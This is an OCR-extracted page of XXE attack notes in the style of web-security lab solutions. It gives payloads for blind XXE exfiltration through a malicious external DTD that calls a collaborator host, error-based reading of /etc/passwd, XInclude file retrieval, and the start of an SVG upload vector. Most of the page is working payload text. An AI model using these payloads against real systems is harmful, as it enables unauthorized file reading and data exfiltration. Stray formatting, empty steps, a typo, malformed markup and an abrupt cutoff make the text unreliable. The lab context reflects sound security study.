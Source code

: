 `<!DOCTYPE stockCheck` 

`[<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`

## **Exploiting blind XXE to exfiltrate data using a malicious external DTD**

1. Place the Burp Collaborator payload into a malicious DTD file:`<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;`
2. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
3. 
4. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

## **Exploiting blind XXE to retrieve data via error messages**

Click "Go to exploit server" and save the following malicious DTD file on your server:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

nsert the following external entity definition in between the XML declaration and the `stockCheck` element:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

## **Exploiting XInclude to retrieve files**

1. 

**<?xml version="1.0"?>**

**<!DOCTYPE lolz [**

**<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>**

**<lolz><lol>3..2..1...&test<lol></lolz>

2**. `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>` ****

## **Exploiting XXE via image file upload**

**<svg xmlns="http://www.w3.org/2000/svg"**
